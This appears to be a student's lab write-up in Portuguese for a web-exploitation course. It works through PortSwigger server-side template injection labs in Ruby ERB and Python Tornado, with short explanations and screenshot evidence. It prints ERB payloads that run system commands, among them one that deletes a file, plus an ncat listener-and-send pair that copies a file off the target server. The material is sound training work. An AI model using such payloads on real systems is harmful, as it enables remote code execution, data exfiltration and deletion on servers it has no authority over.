# FIAP - 3° Checkpoint - Server-Side Template Injection

## Introdução
Checkpoint realizado com o intuito de colocar em prática todos os conhecimentos sobre vulnerabilidades web na matéria de Web Exploit, ministrada pelo [Professor Rafael Trassi](https://www.linkedin.com/in/rafael-trassi/).

## Feito por

- Matheus Rosa

## Vulnerabilidade

A Server-Side Template Injection ocorre quando um invasor é capaz de usar a sintaxe nativa do modelo para injetar uma carga maliciosa em um modelo, que é então executado no lado do servidor.

Os mecanismos de modelo são projetados para gerar páginas da web combinando modelos fixos com dados voláteis. Ataques de injeção de modelo no servidor podem ocorrer quando a entrada do usuário é concatenada diretamente em um modelo, em vez de ser transmitida como dados. Isso permite que invasores injetem diretivas de modelo arbitrárias para manipular o mecanismo de modelo, muitas vezes permitindo que eles assumam o controle total do servidor. Como o nome sugere, as cargas úteis de injeção de modelo no lado do servidor são entregues e avaliadas no lado do servidor, tornando-as potencialmente muito mais perigosas do que uma injeção típica de modelo no lado do cliente.

## Print da Conta 
* Envie um print da área de detalhes da conta após ter logado


# Exercício 0x01 - Lab

Link: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic  

## 01 - Uma captura de tela completa com a mensagem de erro produzida pela aplicação quando um item está esgotado no estoque.



## 02 - Uma captura de tela completa como prova de que você consegue realizar operações simples ou multiplicar uma string (exemplo: 'FIAP' * 10). Exiba o seu payload na barra de endereços.



## 03 - Envie um print mostrando qual o hash MD5 do arquivo morale.txt.

Comando Utilizado: 
```
<%= system('md5sum morale.txt') %>
```



## 04 - Responda qual o tipo de arquivo é o morale.txt.

Comando Utilizado: 
```
<%= system('file morale.txt') %>
```
__R: morale.txt é um arquivo openssl enc'd data with salted password__

## 05 - Demonstre como você copiaria o arquivo morale.txt do servidor do lab. Também forneça prova de que este arquivo foi copiado na sua própria máquina demonstrando as saídas dos comandos file, ls e md5sum no seu próprio terminal.

__R: Para transferir o arquivo do servidor para a minha maquina local eu utilizaria o ncat. Basicamente abriria uma porta em modo listening no meu kali e na URL passaria o comando:__

Kali:
```
ncat -nvlp 1337
````
Este comando irá abrir e ficar escutando a porta 1337 da máquina local

Máquina Alvo:
```
ncat IP PORT < morale.txt
````
O comando ira se conectar com o Kali e enviará o arquivo morale.txt após conexão.

### Prints

- md5sum
  
- file
  
- ls
  

## 06 - Forneça o payload utilizado para completar o primeiro laboratório e a evidência que você conseguiu completá-lo.

Comando Utilizado: 

```
<%= system(' rm morale.txt ') %>
```



## 07 - Em qual linguagem o sistema de template está sendo executado?

__R: Ele foi escrito em RUBY__



# Exercício 0x02 - Lab

Link: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context 

## 01 - Uma captura de tela completa (exibindo o endereço do seu laboratório) com um comentário anônimo contendo seu primeiro nome e RM.



## 02 - Uma captura de tela completa (exibindo o endereço do seu laboratório e seu payload) com prova de que você consegue realizar operações simples, tais como: somar ou multiplicar dois números ou multiplicar uma string.




## 03 - Em qual linguagem o sistema de template está sendo executado?

__R: o sistema template Tornado esta sendo executado em python__

## 04 - Forneça evidência de que conseguiu completar o objetivo deste laboratório.



